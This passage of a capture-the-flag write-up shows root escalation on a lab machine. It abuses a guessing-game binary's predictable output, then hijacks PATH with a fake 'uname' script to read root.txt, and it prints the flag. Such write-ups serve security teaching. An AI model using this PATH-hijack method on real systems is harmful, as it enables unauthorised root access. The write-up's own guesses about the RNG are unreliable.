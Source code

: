 ![](gitbook/cybersecurity/images/Pasted%252520image%25252020250404184352.png)

It seems like some sort of RNG is happening behind this, we can analyze it with `ghidra` or test this other stuff:

```bash
echo '111' | /srv/time-turner/swagger | grep "of" | cut -f5 -d' ' | /srv/time-turner/swagger ;
```

##### **How the Hijack Works**:

- **Predictable RNG**:  
    The binary uses the input (e.g., `111`) to generate its output. If the RNG is poorly implemented (e.g., uses input as a seed without proper entropy), the output becomes predictable.  
    
    Example:
    - Input `111` → Output `456`.
    - Input `456` → Output `789`.
        
- **Controlled Feedback**:  
    By extracting the output number and piping it back into the binary, the attacker forces the RNG into a deterministic sequence. This bypasses randomness.


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250404184846.png)


We can use the following to get `root.txt`, we can change the method and get our `authorized` to gain a shell as root, to the simplicity of things, let's simply read the flag:


```
TD=$(mktemp -d)
echo 'cat /root/root.txt' > "$TD/uname"
chmod a+x "$TD/uname"
export PATH=$TD:$PATH
echo 667 | /srv/time-turner/swagger | sed -n 2p | cut -d ' ' -f 5 | /srv/time-turner/swagger
```

We get this output:

```
Guess my number: Nice use of the time-turner!
This system architecture is RME{M@rK-3veRy-hOur-0135d3f8ab9fd5bf}
```

Root flag is:

```
RME{M@rK-3veRy-hOur-0135d3f8ab9fd5bf}
```


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250404185921.png)

